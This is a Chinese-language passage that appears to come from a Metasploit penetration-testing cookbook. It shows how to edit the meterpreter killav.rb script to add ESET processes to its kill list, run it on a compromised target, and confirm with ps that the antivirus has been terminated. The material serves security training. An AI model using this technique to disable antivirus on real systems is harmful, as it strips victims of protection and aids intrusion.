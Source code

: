 正如我们所看到的，即使使用了`killav.rb`脚本，这两个杀毒软件进程仍然存活。让我们先看一下`killav.rb`脚本。

## 如何操作

1.  要查看和编辑`killav.rb`脚本，请打开一个新的终端窗口，浏览到`/pentest/exploits/framework3/scripts/meterpreter`。

```
root@bt: cd /pentest/exploits/framework3/scripts/meterpreter
root@bt:/pentest/exploits/framework3/scripts/meterpreter# vim killav.rb 
```

1.  `vim`是 Unix 中用于快速编辑文件的编辑器。它将在我们的屏幕上打开整个脚本。向下滚动以查找其中列出的各种进程。这些是脚本寻找要终止的进程。检查整个列表，查找`eset.exe`和`egui.exe`。如果它们不可用，那么将这两个进程添加到脚本中。要在 vim 中启动编辑模式，请按*a*键。它将启动插入模式。现在在脚本的进程列表中添加这两个进程。

```
@@exec_opts.parse(args) { |opt, idx, val|
case opt
when "-h"
usage
end
}
print_status("Killing Antivirus services on the target...")
avs = %W{
egui.exe
eset.exe
AAWTray.exe
Ad-Aware.exe
MSASCui.exe
_avp32.exe 
```

1.  以下代码片段显示了列表顶部添加的两个进程。要退出插入模式，请按*esc*键。现在要保存脚本，请按*:*键。您将进入 vim 编辑器的迷你命令提示符。现在输入`wq`以保存并退出编辑器。

```
:wq

```

1.  现在回到 meterpreter 会话，再次执行`killav.rb`脚本，注意发生了什么。

```
meterpreter > run killav.rb
[*] Killing Antivirus services on the target...
[*] Killing off egui.exe...
[*] Killing off eset.exe... 
```

1.  命令执行的输出显示脚本成功杀死了两个进程。现在，为了验证所有杀毒软件进程是否已被杀死，我们将再次执行`ps`命令进行交叉检查（输出缩短以适应）。

```
meterpretr> ps
PID Name User Path
--- ---- ---- ----
1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni. 
```
